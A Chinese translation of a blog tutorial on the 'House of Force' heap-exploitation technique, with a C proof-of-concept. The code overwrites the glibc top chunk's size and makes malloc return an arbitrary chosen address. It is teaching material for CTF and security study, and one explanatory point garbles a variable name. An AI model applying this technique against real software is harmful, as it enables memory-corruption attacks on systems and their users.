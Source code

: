 ```yaml
---
title: Heap Exploitation系列翻译-15 House of Force
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# House of Force

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

与'House of Lore'类似, 这项攻击重点在于从'malloc'返回一个任意的指针. 伪造堆块攻击讨论的是fastbins的情况而'House of Lore'讨论的则是small bin的情况. 在这里'House of Force'则是利用了'top chunk'. topmost chunk 也被称作 'wilderness', 它以堆的末尾作为边界(比如, 它是堆的最大地址)并且不会出现在任何bin链中. 它符合相同的堆块结构格式.

这项攻击技术假定在top chunk的首部存在溢出. 它的`size`可以被修改为一个非常大的值(在本例中是`-1`), 这能够确保所有初始申请将会使用top chunk来满足要求, 而非依赖于`mmap`. 在64位系统, `-1`即是`0xFFFFFFFFFFFFFFFF`, 一个这样大小的堆块可以覆盖程序的整个内存空间. 让我们假定一下, 攻击者希望'malloc'返回地址'P'. 现在, 任何大小为`&top_chunk` - `P`的malloc调用都会使用top chunk来满足. 要注意, `P`可以在`top_chunk`之前或之后. 如果是在前面, 结果就得是一个很大的整数(因为size是无符号的). 但它仍旧是小于`-1`的. 在发生完整数溢出并且malloc使用top chunk很好的满足申请需求后, 此刻, top chunk就会指向`P`并且之后的任何申请都会直接返回`P`!

考虑以下示例代码(下载完整版本: [这里](/files/heap-exploition/files/house_of_force.c)):

```c
// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc"; // At 0x601060

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

struct chunk_structure *chunk, *top_chunk;
unsigned long long *ptr;
size_t requestSize, allotedSize;

// First, request a chunk, so that we can get a pointer to top chunk
ptr = malloc(256);                                                    // At 0x131a010
chunk = (struct chunk_structure *)(ptr - 2);                          // At 0x131a000

// lower three bits of chunk->size are flags
allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

// top chunk will be just next to 'ptr'
top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);  // At 0x131a110

// here, attacker will overflow the 'size' parameter of top chunk
top_chunk->size = -1;       // Maximum size

// Might result in an integer overflow, doesn't matter
requestSize = (size_t)victim            // The target address that malloc should return
                - (size_t)top_chunk     // The present address of the top chunk
                - 2*sizeof(long long)   // Size of 'size' and 'prev_size'
                - sizeof(long long);    // Additional buffer

// This also needs to be forced by the attacker
// This will advance the top_chunk ahead by (requestSize+header+additional buffer)
// Making it point to 'victim'
malloc(requestSize);                                                  // At 0x131a120

// The top chunk again will service the request and return 'victim'
ptr = malloc(100);                                // At 0x601060 !! (Same as 'victim')
```

'malloc' 返回一个指向`victim`的地址

以下几样需要我们注意:

1. 当计算`to_chunk`的准确指针时, 要将prev_size的三个最低位清零, 以获得准确的大小.
2. 当计算requestSize, 需要算进一个额外的缓冲区, 这只是用于抵消分配堆块时进行的四舍五入. 顺便一提, 在这种情况下, malloc 会返回一个比申请大小多8字节的堆块. 要注意, 这是与机器相关的.
3. `victim`可以是任意地址(堆,栈,bss段等地址)
